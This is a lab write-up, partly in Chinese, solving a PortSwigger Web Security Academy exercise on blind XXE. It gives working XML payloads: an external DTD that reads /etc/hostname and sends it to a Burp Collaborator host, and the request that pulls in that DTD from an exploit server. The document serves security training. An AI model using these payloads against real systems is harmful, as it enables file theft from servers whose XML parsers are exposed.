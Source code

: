# Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input but does not display the result.
* Goal: To solve the lab, exfiltrate the contents of the /etc/hostname file.
* Hint: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.


## Recon
1. Use the previous method
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://d3hr4hyf51vbe69iuzp4czdzuq0ho6.burpcollaborator.net"> %xxe; ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/rJz-j9L42.png)
    By using the previous method, we can not achieve our goal which is exfiltrating the host name of the server.

2. A new method
Refer to the hint, we can use the exploit server they provided.
    1. Copy the Collaborator Payload
    2. Complete Malicious Server Payload and Store
        ```xml
        <!ENTITY % file SYSTEM "file:///etc/hostname">
        <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
        %eval;
        %exfil;
        ```
    3. Complete Intercept Packet Payload
        Intercept the packet that you click `Check stock` button in arbitrary product page.
        Copy and paste your malicious server URL to `YOUR-DTD-URL`, e.g. `https://exploit-{YOUR-RANDOM-URL}.exploit-server.net/exploit`
        ```xml
        <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
        ```
    4. Send packet and observe in Collaborator

## Exp - <font color="FF0000">通靈</font>
完整的流程有點複雜，我自己的想法是暫停的封包會因為parameter entity的reference，而觸發`%xxe`而和malicious server產生互動，此時malicious server就可以利用`%eval`和`%exfil`讓`SYSTEM "file:///etc/hostname"`這個指令被執行，並且把結果當作Collaborator的GET參數回傳給Burp Suite，此時我們就可以在Burp Suite的Collaborator中看到hostname是甚麼了。

:::spoiler Malicious Server Payload
```xml!
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ehzsiicgj29cs7nj8035q0r08reh26.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
:::
:::spoiler Packet Payload
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aae00dc044ebfc38406a3db012f0055.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```
:::
:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/HkQPt5843.png)
:::

## Reference
[XXE Lab Breakdown: Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://youtu.be/wqwUqHA_AJE)